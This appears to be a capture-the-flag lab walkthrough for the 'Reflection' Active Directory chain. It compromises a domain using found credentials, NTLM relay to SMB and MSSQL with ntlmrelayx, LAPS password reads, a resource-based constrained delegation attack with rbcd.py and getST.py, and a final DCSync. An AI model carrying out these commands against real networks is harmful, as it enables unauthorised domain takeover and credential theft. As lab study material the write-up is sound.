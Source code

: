 # Reflection (chain) (medium)

## port scan

10.10.164.101 DC01.reflection.vl

10.10.164.102 MS01.reflection.vl

10.10.164.103 WS01.reflection.vl

```
Open 10.10.164.101:88
Open 10.10.164.101:135
Open 10.10.164.103:135
Open 10.10.164.102:135
Open 10.10.164.101:139
Open 10.10.164.101:389
Open 10.10.164.101:445
Open 10.10.164.103:445
Open 10.10.164.102:445
Open 10.10.164.101:464
Open 10.10.164.101:593
Open 10.10.164.101:636
Open 10.10.164.101:1433
Open 10.10.164.102:1433
Open 10.10.164.101:3268
Open 10.10.164.101:3269
Open 10.10.164.103:3389
Open 10.10.164.101:3389
Open 10.10.164.102:3389
Open 10.10.164.101:5985
Open 10.10.164.102:5985
Open 10.10.164.101:9389
Open 10.10.164.101:49664
Open 10.10.164.101:49667
Open 10.10.164.102:49669
Open 10.10.164.101:49671
Open 10.10.164.101:49674
Open 10.10.164.101:49675
Open 10.10.164.101:49692
Open 10.10.164.101:56499
Open 10.10.164.101:56515
```

## service enumeration

![](<reflection(chain)(medium)/walkthrough_20240412110355542.png>)

there have a custom smb share folder `staging`

![](<reflection(chain)(medium)/walkthrough_20240412110603158.png>)

there have a conf file

![](<reflection(chain)(medium)/walkthrough_20240412110743188.png>)

`web_staging:Washroom510` , so we have a cred. looks like sql cred

![](<reflection(chain)(medium)/walkthrough_20240412110814534.png>)

since MS01 open 1433 port (mssql)

![](<reflection(chain)(medium)/walkthrough_20240412111134818.png>)

there have a custom database called staging

![](<reflection(chain)(medium)/walkthrough_20240412111607615.png>)

the staging db have `users` table, we can select users table to get those cred. `dev01:Initial123`

![](<reflection(chain)(medium)/walkthrough_20240412111346033.png>)

both cred are not domain cred

![](<reflection(chain)(medium)/walkthrough_20240412112907512.png>)

the `xp_dirtree` tell us the username called `svc_web_staging`

![](<reflection(chain)(medium)/walkthrough_20240412115932759.png>)

## relay attack

the ntlm auth message are in packets of application protocols such as SMB,HTTP,MSSQL. ntlm auth are "application protocol-independent". That is called `cross-protocols LM/NTLM relay`

```bash
ntlmrelayx.py -tf ./target
```

`Authenticating against smb://10.10.164.101 as REFLECTION/SVC_WEB_STAGING SUCCEED` which mean we can relay that authentication to DC01.reflection.vl.

and there also have 1433 port (mssql) open on DC01.reflection.vl

![](<reflection(chain)(medium)/walkthrough_20240412120232871.png>)

so set target `mssql://10.10.164.101` and set query `SELECT name FROM master.dbo.sysdatabases` to show databases on dc01

```bash
impacket-ntlmrelayx -t mssql://10.10.164.101 -q 'SELECT name FROM master.dbo.sysdatabases;' -smb2support
```

there have a custom databases called `prod`

![](<reflection(chain)(medium)/walkthrough_20240412122243369.png>)

we can't access prod databases

![](<reflection(chain)(medium)/walkthrough_20240412125232932.png>)

after read this post https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022. i found we can use `-socks` to open a socks proxy access smb share

```bash
impacket-ntlmrelayx -t smb://10.10.164.101 -socks -smb2support
```

![](<reflection(chain)(medium)/walkthrough_20240412131519400.png>)

```bash
pc -f ~/tool/chisel.conf impacket-smbclient REFLECTION/SVC_WEB_STAGING@10.10.164.101
```

![](<reflection(chain)(medium)/walkthrough_20240412131849129.png>)

in `prod` share, we can found a cred

![](<reflection(chain)(medium)/walkthrough_20240412132137299.png>)

now we can use web_prod read prod databases on dc01

```bash
impacket-mssqlclient web_prod:Tribesman201@10.10.164.101
```

![](<reflection(chain)(medium)/walkthrough_20240412132531352.png>)

edit dnschef.ini to prepare bloodhound fetch domain information

![](<reflection(chain)(medium)/walkthrough_20240412132831500.png>)

![](<reflection(chain)(medium)/walkthrough_20240412133706787.png>)

## RBCD check

i will use https://github.com/kaluche/bloodhound-quickwin

![](<reflection(chain)(medium)/walkthrough_20240412134017115.png>)

since the machine account quota is `0`, which mean we can't create new evil machine account complate RBCD attack

![](<reflection(chain)(medium)/walkthrough_20240412134728593.png>)

## shadow credentials

we also have `shadow credentials` method

![](<reflection(chain)(medium)/walkthrough_20240412134929180.png>)

the keycredentials is empty, use pywhisker add new one

![](<reflection(chain)(medium)/walkthrough_20240412135615135.png>)

seems not work

![](<reflection(chain)(medium)/walkthrough_20240412141354947.png>)

## LASP

the ms01 LAPS is enable

![](<reflection(chain)(medium)/walkthrough_20240412143012854.png>)

we can use pylaps to read random administrator password

![](<reflection(chain)(medium)/walkthrough_20240412143805018.png>)

![](<reflection(chain)(medium)/walkthrough_20240412143926737.png>)

i will use sharpdpi

![](<reflection(chain)(medium)/walkthrough_20240412152427781.png>)

another cred

![](<reflection(chain)(medium)/walkthrough_20240412152454863.png>)

## RBCD attack

we can use rbcd.py to add `msDS-AllowedToActOnBehalfOfOtherIdentity` attr to our control machine ms01

```
rbcd.py -delegate-from 'ms01$' -delegate-to 'ws01' -action 'write' 'reflection/Georgia.Price:DBl+5MPkpJg5id' -dc-ip dc01.reflection.vl
```

![](<reflection(chain)(medium)/walkthrough_20240412153320919.png>)

```
getST.py -spn 'cifs/ws01.reflection.vl' -impersonate 'administrator' 'reflection.vl/ms01$' -hashes :16f4293a0f659f99d7e5cd88de370c25 -dc-ip dc01.reflection.vl
```

![](<reflection(chain)(medium)/walkthrough_20240412153634062.png>)

![](<reflection(chain)(medium)/walkthrough_20240412155339174.png>)

i will use atexec get a beacon

![](<reflection(chain)(medium)/walkthrough_20240412154544680.png>)

## password reuse

`GARNER` string also use on DOM_RGARNER, since we have RHYS.GARNER password via impacket-secretsdump

![](<reflection(chain)(medium)/walkthrough_20240412155408789.png>)

the DOM_RGARNER user have DCSync, we can dump all information via secretsdump

![](<reflection(chain)(medium)/walkthrough_20240412155432585.png>)

done!

![](<reflection(chain)(medium)/walkthrough_20240412155834911.png>)
